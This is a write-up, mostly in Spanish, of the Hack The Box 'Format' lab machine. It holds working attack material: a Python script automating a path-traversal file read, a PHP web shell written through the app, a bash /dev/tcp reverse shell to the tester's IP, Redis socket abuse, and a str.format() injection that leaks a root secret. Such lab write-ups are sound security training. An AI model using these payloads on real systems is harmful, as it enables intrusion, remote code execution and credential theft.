

+++
author = "Andrés Del Cerro"
title = "Hack The Box: Format Writeup | Medium"
date = "2024-09-04"
description = ""
tags = [
    "HackTheBox",
    "Format",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "HTTP Enumeration",
    "XSS",
    "Reflected XSS",
    "Gitea Enumeration",
    "PHP Code Analysis",
    "Local File Inclusion",
    "Directory Path Traversal",
    "Read/Write File Exploit",
    "Nginx Misconfiguration",
    "Abusing Storing Passwords in Plaintext",
    "User Pivoting",
    "Abusing sudo custom script",
    "Abusing str.format()",
    "Read Internal File"
]

+++

# Hack The Box: Format Writeup

Welcome to my detailed writeup of the medium difficulty machine **"Format"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
$ rustscan -a 10.129.229.3 --ulimit 5000 -g
10.129.229.3 -> [22,80,3000]
```

```console
$ nmap -p22,80,3000 -sCV 10.129.229.3 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-04 19:10 CEST
Nmap scan report for 10.129.229.3
Host is up (0.037s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c3:97:ce:83:7d:25:5d:5d:ed:b5:45:cd:f2:0b:05:4f (RSA)
|   256 b3:aa:30:35:2b:99:7d:20:fe:b6:75:88:40:a5:17:c1 (ECDSA)
|_  256 fa:b3:7d:6e:1a:bc:d1:4b:68:ed:d6:e8:97:67:27:d7 (ED25519)
80/tcp   open  http    nginx 1.18.0
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0
3000/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://microblog.htb:3000/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.09 seconds
```

# UDP Enumeration

```console
$ sudo nmap --top-ports 1500 -sU -n -Pn --min-rate 5000 10.129.229.3 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-04 19:11 CEST
Nmap scan report for 10.129.229.3
Host is up (0.037s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
1053/udp  closed remote-as
1434/udp  closed ms-sql-m
3389/udp  closed ms-wbt-server
17674/udp closed unknown
22417/udp closed unknown
25538/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.81 seconds
```

Del escaneo inicial encontramos el dominio `microblog.htb`, lo añadimos al `/etc/hosts`

No hay otros vectores de entrada, por lo cual la intrusión debe de acontecerse a través de alguno de los servicios web.
# HTTP Enumeration -> 80
Vamos a empezar enumerando el puerto 80/TCP.

`whatweb` nos reporta que se acontece una redirección al subdominio `app.microblog.htb` si intentamos acceder al puerto 80/TCP utilizando la IP de  la máquina. Existen respuestas distintas por lo cual se está aconteciendo Virtual Hosting por detrás, puede significar que existen mas subdominios.

```console
$ whatweb http://10.129.229.3
http://10.129.229.3 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0], IP[10.129.229.3], Meta-Refresh-Redirect[http://app.microblog.htb], nginx[1.18.0]
ERROR Opening: http://app.microblog.htb - no address for app.microblog.htb
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/format]
└──╼ [★]$ ^C
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/format]
└──╼ [★]$ whatweb http://microblog.htb
http://microblog.htb [404 Not Found] Country[RESERVED][ZZ], HTTPServer[nginx/1.18.0], IP[10.129.229.3], Title[404 Not Found], nginx[1.18.0]
```

Así se ve el sitio web.


Encontramos un apartado donde se está reflejando como si se tuvieran varios subdominios por detrás, 15 para ser exactos.


Después de fuzzear con `wfuzz` los 15 subdominios para el servicio web del puerto 80/TCP y 3000/TCP, no encontré nada interesante.

Podemos crearnos una cuenta.


## Multiple XSS
Parece que nos da la opción de crear un blog bajo un subdominio.


Podemos ver que se crean.


Podemos editar el texto.


Se acontece un XSS al insertar código Javascript en el h1.


Ocurre otro XSS si lo insertamos en el texto.


No podemos enviar nada a nadie por ahora, así que no podemos realizar un ataque de tipo Cookie Hijacking por ejemplo.

La cookie que alberga la sesión es esta, parece que es el número de usuario encriptado o una especie de ID de usuario.


# HTTP Enumeration -> 3000
En el puerto 3000 encontramos una instancia de Gitea, no podemos crearnos una cuenta.


Encontramos un repositorio de un usuario llamado `cooper` que alberga el proyecto encontrado anteriormente


Analizando el código vemos que se está utilizando una base de datos `Redis` detrás.


Tenemos esta función `addSite($site_name)`
```php
function addSite($site_name) {
    if(isset($_SESSION['username'])) {
        //check if site already exists
        $scan = glob('/var/www/microblog/*', GLOB_ONLYDIR);
        $taken_sites = array();
        foreach($scan as $site) {
            array_push($taken_sites, substr($site, strrpos($site, '/') + 1));
        }
        if(in_array($site_name, $taken_sites)) {
            header("Location: /dashboard?message=Sorry, that site has already been taken&status=fail");
            exit;
        }
        $redis = new Redis();
        $redis->connect('/var/run/redis/redis.sock');
	$redis->LPUSH($_SESSION['username'] . ":sites", $site_name);
        $tmp_dir = "/tmp/" . generateRandomString(7);
        system("mkdir -m 0700 " . $tmp_dir);
        system("cp -r /var/www/microblog-template/* " . $tmp_dir);
        system("chmod 500 " . $tmp_dir);
        system("chmod +w /var/www/microblog");
        system("cp -rp " . $tmp_dir . " /var/www/microblog/" . $site_name);
	system("chmod -w microblog");
	system ("chmod -R +w " . $tmp_dir);
	system("rm -r " . $tmp_dir);
        header("Location: /dashboard?message=Site added successfully!&status=success");
    }
    else {
        header("Location: /dashboard?message=Site not added, authentication failed&status=fail");
    }
}
```


- **Verificación de sesión:**
    
    - La función comienza comprobando si existe una sesión activa (`$_SESSION['username']`). Si no existe, redirige al usuario al panel de control con un mensaje de error.
- **Verificación de la existencia del sitio:**
    
    - Utiliza `glob` para escanear todos los subdirectorios en `/var/www/microblog/` y los almacena en un array llamado `$taken_sites`.
    - Comprueba si el nombre del sitio que se está intentando crear (`$site_name`) ya existe en el array `$taken_sites`. Si es así, redirige al usuario al panel de control con un mensaje de error indicando que el sitio ya existe.
- **Conexión a Redis:**
    
    - Establece una conexión con un servidor Redis usando un socket Unix (`/var/run/redis/redis.sock`).
    - Luego, agrega el nombre del sitio a una lista en Redis que está asociada con el nombre de usuario de la sesión (`$_SESSION['username'] . ":sites"`).
- **Creación del nuevo sitio:**
    
    - Genera un directorio temporal en `/tmp/` utilizando una cadena aleatoria generada por una función no incluida en el código (`generateRandomString(7)`).
    - Copia los archivos desde una plantilla (`/var/www/microblog-template/*`) al directorio temporal y ajusta los permisos para que sea de solo lectura.
    - Se asegura de que el directorio `/var/www/microblog` tenga permisos de escritura temporalmente para poder copiar los archivos del directorio temporal al nuevo directorio del sitio.
    - Ajusta los permisos del nuevo sitio para que sea de solo lectura y luego elimina el directorio temporal.
- **Redirección final:**
    
    - Una vez que se ha creado el sitio, redirige al usuario al panel de control con un mensaje de éxito.
- **Manejo de errores:**
    
    - Si no se ha establecido la sesión, la función redirige al usuario con un mensaje de error indicando que la autenticación falló.

Podemos analizar el recurso `index.php` del directorio `edit` de la plantilla a ver que encontramos.


La función que mas me llama la atención es `provisionProUser()`
```php
function provisionProUser() {
    if(isPro() === "true") {
        $blogName = trim(urldecode(getBlogName()));
        system("chmod +w /var/www/microblog/" . $blogName);
        system("chmod +w /var/www/microblog/" . $blogName . "/edit");
        system("cp /var/www/pro-files/bulletproof.php /var/www/microblog/" . $blogName . "/edit/");
        system("mkdir /var/www/microblog/" . $blogName . "/uploads && chmod 700 /var/www/microblog/" . $blogName . "/uploads");
        system("chmod -w /var/www/microblog/" . $blogName . "/edit && chmod -w /var/www/microblog/" . $blogName);
    }
    return;
}
```

Si consiguiéramos llamar a esta función y controlásemos el nombre del blog, podríamos inyectar un comando a nivel de sistema.

## Local File Inclusion
Al seguir enumerando me di cuenta de que al agregar un texto o un encabezado, escribe el texto en `../content/order.txt`

Vemos la siguiente línea `$post_file = fopen("{$_POST['id']}", "w");`

La función `fopen` abre un archivo. El primer argumento es el nombre del archivo que se desea abrir, que en este caso es el valor de `$_POST['id']`. El segundo argumento `"w"` indica que el archivo se abre en modo de escritura (`write`). Si el archivo no existe, `fopen` intentará crearlo; si ya existe, truncará su contenido, es decir, borrará cualquier contenido anterior.

Por lo cual podríamos intentar leer un archivo no autorizado ya que nosotros controlamos el parámetro `id`

Al intentar editar nuestro blog nos encontramos lo siguiente.


¿De donde ha salido este `id`?

Vemos que estaba hardcodeado en el código.


Vemos que esto funciona, por detrás se carga el archivo y se guarda la ruta en `orders.txt`, acto seguido la carga por lo cual tenemos un LFI.


Podemos comprobar el valor de `order.txt` de nuestro blog vemos que está el Path Traversal / Local File Inclusion ahí.
```console
$ curl http://test.microblog.htb/content/order.txt
hm5yhgl36el
../../../../../../../../../etc/passwd
```

Hay que tener en cuenta de que se intenta crear el archivo con el nombre, por lo cual podríamos intentar crear un archivo con la extensión PHP (ya que controlamos el nombre de archivo completamente) para intentar insertar contenido malicioso e intentar ejecutar comandos a nivel de sistema. **No funciona**

Para ello voy a crear un pequeño script en Python para automatizar esta vulnerabilidad.

Se que puede estar mas resumido y me he comido mucho la cabeza pero existe un problema, y es que si se mostrase el output en forma de HTML no habría problema sin embargo se muestra dentro de un script en Javascript, por lo cual habría que usar `Selenium` por ejemplo para renderizar la página y a partir de ahí utilizar el arbol DOM generado para filtrar por el contenido.

Pero como no tengo `Selenium` y no quería instalarlo lo quería hacer con simples expresiones regulares.

Script:
```python
#!/usr/bin/python3
import requests
import signal
import re

SUBDOMAIN_URL="http://test.microblog.htb/"
URL = "http://test.microblog.htb/edit/index.php"
FILE_URL = "http://test.microblog.htb/content/order.txt"
USERNAME_COOKIE = "97vle27go9t2gt324n5dqre1n7"

def def_handler(x,y):
    print("\n[i] Saliendo...")
    exit(1)

signal.signal(signal.SIGINT, def_handler)

def set_file(file_name):
    cookies = {"username": USERNAME_COOKIE}
    data = {"id": file_name, "header": "test"}
    r = requests.post(URL, cookies=cookies, data=data)
    
def lfi(file_name):
    set_file(file_name)
    r = requests.get(FILE_URL)
    # Comprobar que el archivoe está en /content/order.txt
    if file_name in r.text:
        r = requests.get(SUBDOMAIN_URL)
        content = r.content.decode("utf-8")
        name = get_regexp(file_name)
        pos = content.find(name)
        end_pattern = "<\\/div>"
        segment = content[pos:]
        final_pos_in_segment = segment.find(end_pattern)
        final_pos = pos + final_pos_in_segment + len(end_pattern)
        print(content[pos:final_pos])
    else:
        print("[x] No se ha encontrado el archivo, revisa que no se haya borrado el blog")
        exit(1)

def get_regexp(file_name):
    file = file_name.replace("../", "")
    striped_file = file.strip("/").split("/")
    final_name = ""
    i = 0
    for s in striped_file:
        final_name += s + "\\/"
    return final_name[:-1] + "\">"
    
if __name__ == "__main__":
    while True:
        name = input("Archivo: ")
        lfi(name)
```

Output:
```console
$ python3 poc.py 
Archivo: ../../../../../../etc/hostname
etc\/hostname\">format\n<\/div>
Archivo: 
```

Al intentar cargar el archivo PHP no funcionaba porque me descargaba el archivo directamente en vez de interpretarlo, en este momento decidí revisar la configuración de `nginx` para ver como estaba montado esto por detrás.

## Interacting with Redis Database
Al revisar el archivo `../../../../../../../etc/nginx/sites-enabled/default`

Encontramos lo siguiente que me pareció interesante ya que si intentamos cargar un recurso `/static/1/2` se convertirá en `http://1.microbucket.htb/2`.


Ahora recordemos la forma en la que la aplicación se conecta a la base de datos Redis.
```php
$redis = new Redis();
    $redis->connect('/var/run/redis/redis.sock');
```

Se conecta al socket donde se encuentra redis alojado.

Es decir, si internamente podamos dar con http://unix:/var/run/redis/redis.sock:TEST.microbucket.htb/2 por ejemplo, mandaremos una solicitud al socket donde se encuentra redis y como en redis se suele poder acceder sin necesidad de autenticación significa que podemos controlar la base de datos de la aplicación y por ende podríamos asignarnos el VIP que hemos visto antes e intentar explotar la inyección de comandos que hemos visto anteriormente.

Sinceramente para ser una máquina de dificultad intermedia me parece un poco rebuscado, pero podemos intentarlo.

Antes de nada vamos a comprobar nuestra teoría.

Vamos a intentar modificar nuestro nombre de usuario a `pwned`

Después de un rato y de ver una pista me di cuenta de que el método hacía que no fuera posible comunicarse con la instancia de Redis.

Si usamos el método [HSET](https://redis.io/docs/latest/commands/hset/) que corresponde al comando en Redis, podemos settear el valor a un campo especifico dentro de un campo.

Es decir, en redis `redis> HSET myhash field1 "Hello"` lo que hacemos es asignar en `myhash` al campo `field1` el valor `Hello`

Si revisamos el código encontramos las siguiente líneas.
```php
$redis->HSET(trim($_POST['username']), "username", trim($_POST['username']));
        $redis->HSET(trim($_POST['username']), "password", trim($_POST['password']));
        $redis->HSET(trim($_POST['username']), "first-name", trim($_POST['first-name']));
        $redis->HSET(trim($_POST['username']), "last-name", trim($_POST['last-name']));
        $redis->HSET(trim($_POST['username']), "pro", "false"); //not ready yet, license keys coming soon
        $_SESSION['username'] = trim($_POST['username']);
        header("Location: /dashboard?message=Registration successful!&status=success");
```

Vamos a modificar el campo `first-name` ya que en los blogs que creamos se refleja este campo.
```javascript
if(siteOwner.length > 0) {
            $(".your-blog").css("display", "flex");
            $(".user-first-name").text(<?php echo getFirstName(); ?>);
        }
```

Entonces vamos a modificar `first-name` del usuario `pointed` para que valga `pwned`

Esto sería hacer 
`HSET pointed first-name "pwned"`

Vamos a probar.
Importante cambiar el método a **HSET** ya que nos estamos comunicando directamente con el Socket de Redis y esto es para que entienda la solicitud.


Ahora si accedemos a nuestro blog...


Vamos a asignarnos el VIP.


Y conseguimos el VIP. 
~~Esto me ha parecido demasiado complicado para una máquina de dificultad media..~~


# RCE -> Foothold
Ahora siendo VIP podemos volver atrás y vemos que según la función `privisonProUser()` ahora se debe de haber creado un directorio `/uploads` y además deberíamos de tener permisos de escritura.

Nos podríamos aprovechar de la vulnerabilidad encontrada anteriormente para intentar crear un archivo PHP en esa ruta a ver si esta vez se interpreta en vez de descargarse.


`POST /edit/index.php`


¡Y funciona!


Creamos una pequeña web shell.


```
id=../uploads/test.php&header=<?php+echo+"<pre>"+.+shell_exec($_GET["cmd"])+.+"</pre>";?>
```

Y conseguimos ejecución remota de comandos.


Ahora para mandarnos la consola, nos ponemos en escucha con `pwncat-cs` por el puerto 443.
```console
$ sudo pwncat-cs -lp 443
```

Ahora al acceder a `http://test.microblog.htb/uploads/test.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.14.73/443%200%3E%261%22`

Conseguimos la consola.
```console
(remote) www-data@format:/var/www/microblog/test/uploads$ whoami
www-data
```

# User Pivoting
Encontramos los usuarios `cooper` y `git` en el sistema.
```console
(remote) www-data@format:/var$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
cooper:x:1000:1000::/home/cooper:/bin/bash
git:x:104:111:Git Version Control,,,:/home/git:/bin/bash
```

Ahora podemos intentar ver la base de datos de Redis e intentar crackear los hashes de los usuarios que nos encontremos.

Además justo se ejecutó el script que esta máquina tiene por detrás para limpiar la base de datos de Redis, así que me viene perfecto para poder enumerar lo que estaba originalmente.
```console
(remote) www-data@format:/var$ redis-cli -s /var/run/redis/redis.sock 
redis /var/run/redis/redis.sock> keys *
1) "cooper.dooper"
2) "cooper.dooper:sites"
```


Vemos que `cooper.dooper` tiene de contraseña `zooperdoopercooper`, ni hasheada ni nada...
```console
redis /var/run/redis/redis.sock> HGETALL cooper.dooper
 1) "username"
 2) "cooper.dooper"
 3) "password"
 4) "zooperdoopercooper"
 5) "first-name"
 6) "Cooper"
 7) "last-name"
 8) "Dooper"
 9) "pro"
10) "false"
```

Ahora podemos migrar de usuario 
```console
(remote) www-data@format:/var$ su cooper
Password: 
cooper@format:/var$ 
```

Podemos leer la flag de usuario.
```console
cooper@format:~$ cat user.txt 
b19c37fb3a5040...
```

# Privilege Escalation
Podemos ejecutar como `root` el binario `/usr/bin/license`
```console
cooper@format:~$ sudo -l
[sudo] password for cooper: 
Matching Defaults entries for cooper on format:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cooper may run the following commands on format:
    (root) /usr/bin/license
```

Vemos que no es un binario si no un script en Python
```console
cooper@format:~$ file /usr/bin/license
/usr/bin/license: Python script, ASCII text executable
```

Vemos que carga el contenido de `/root/license/secret` y utilizando una función de derivación de clave (KDF), deriva una clave de cifrado a partir del secreto y un salt predefinido. La clave resultante se codifica en base64 para su uso en criptografía o almacenamiento seguro.
```console
secret = [line.strip() for line in open("/root/license/secret")][0]
secret_encoded = secret.encode()
salt = b'microblogsalt123'
kdf = PBKDF2HMAC(algorithm=hashes.SHA256(),length=32,salt=salt,iterations=100000,backend=default_backend())
encryption_key = base64.urlsafe_b64encode(kdf.derive(secret_encoded))
```

Investigando y por el nombre de la máquina encontré [esta publicación](https://www.geeksforgeeks.org/vulnerability-in-str-format-in-python/) donde se explica una vulnerabilidad por la cual podemos filtrar datos en tiempo de ejecución accediendo a los atributos de otros objetos que no deberíamos.

Todo esto ocurre en la función `format` de los strings.


En el código vemos que solo hay una coincidencia.
```python
prefix = "microblog"
    username = r.hget(args.provision, "username").decode()
    firstlast = r.hget(args.provision, "first-name").decode() + r.hget(args.provision, "last-name").decode()
    license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
    print("")
    print("Plaintext license key:")
    print("------------------------------------------------------")
    print(license_key)
```

Los usuarios provisionados son los que ya tienen una entrada en `/root/license/keys`
```console
existing_keys = open("/root/license/keys", "r")
    all_keys = existing_keys.readlines()
    for user_key in all_keys:
        if(user_key.split(":")[0] == args.provision):
            print("")
            print("License key has already been provisioned for this user")
            print("")
            sys.exit()
```

El primer paso es crear un usuario no provisionado, creamos un usuario a través del sitio web.

```console
cooper@format:/usr/bin$ redis-cli -s /var/run/redis/redis.sock
redis /var/run/redis/redis.sock> keys *
1) "pointed"
2) "cooper.dooper"
3) "PHPREDIS_SESSION:97vle27go9t2gt324n5dqre1n7"
4) "cooper.dooper:sites"
```

Le podemos provisionar ahora y vemos que funciona.
```console
cooper@format:/usr/bin$ sudo /usr/bin/license -p pointed

Plaintext license key:
------------------------------------------------------
microblogpointed3u6jc"D]GQ"5Of@iNd'j'6&~>+Xa@~C;:&JW4y1Ppointedpointed

Encrypted license key (distribute to customer):
------------------------------------------------------
gAAAAABm2KSrLZ4-8N7h12sTktgCH_tcMFYStC1_4C9GV9ssRC2DsbFCta7zs5cScBclfOJxLvWiSHB-qXxftcnyUOYvoiynkpXt5ifmibRVyuVkJb8YPAfozSU2PDoY9v308Szz10Pcglz_m9TGJ4LzA-iebZnf_XfVFEie0reV7Gngq0EZqqQ=
```

Y vemos una cosa de la cual sabiendo la vulnerabilidad en `format` nos podemos aprovechar.

Vemos que se refleja el nombre del usuario, podríamos modificar el `firstlast` e intentar leer el `secret` ya que esta variable ya está definida en tiempo de ejecución.
```python
license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
```

Creamos un usuario `test` y ahora podríamos seguir el artículo anterior y siguiendo el formato `{people_obj.__init__.__globals__[CONFIG][KEY]}` podríamos acceder al objeto `license` y a través del `__init__` podríamos acceder a la variable `secret_encoded` que en principio contiene la clave de encriptación en texto plano.

Ahora cambiamos el campo `first-name` del usuario `test` para llevar a cabo esta explotación.
```
redis /var/run/redis/redis.sock> HSET test first-name {license.__init__.__globals__[secret_encoded]}
(integer) 0
```

Vemos que se ha actualizado correctamente.
```
redis /var/run/redis/redis.sock> HGETALL test
 1) "username"
 2) "test"
 3) "password"
 4) "test"
 5) "first-name"
 6) "{license.__init__.__globals__[secret_encoded]}"
 7) "last-name"
 8) "test"
 9) "pro"
10) "false"
```

```console
cooper@format:/usr/bin$ sudo /usr/bin/license -p test

Plaintext license key:
------------------------------------------------------
microblogtestPI~{?|n>347`([oiD%]]}+TmLI7):-Yyi|_s)v6Nb'unCR4ckaBL3Pa$$w0rd'test

Encrypted license key (distribute to customer):
------------------------------------------------------
gAAAAABm2Kd0vioajxidv-Ha77lwDvdWwKcUaS_QJVpmY1Lk9LMoKbEH_d5Hy8rD3uB1i_3Wm_GUp0iaIb9Dwa6iX98Vg57Bwq_qhtPy7LpQwMT0dAlqTBHb27AefkNHkjSImC7Puhd4Cp06MPhodX19OJHH8ZOfrQ8ttRuK4v-cnQCdFDj5S1A=
```

Y donde tendría que haberse escrito `testtest` se ha escrito `'unCR4ckaBL3Pa$$w0rd'test`, así que `unCR4ckaBL3Pa$$w0rd` es el `secret` que se usa para encriptar la licencia.

Ahora podemos migrar al usuario `root` con esta clave.
```console
cooper@format:/usr/bin$ ssh root@127.0.0.1
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:5g/lIE6E8fQVRIJhCTQ/l6jE2Sh56FYGSFi4iLbQQko.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '127.0.0.1' (ECDSA) to the list of known hosts.
root@127.0.0.1's password: 
Linux format 5.10.0-22-amd64 #1 SMP Debian 5.10.178-3 (2023-04-22) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 23 18:43:13 2023 from 10.10.14.41
root@format:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Podemos leer la flag de `root`
```console
root@format:~# cat root.txt 
b7483a6a2fbd...
```

¡Y ya estaría!

Happy Hacking! 🚀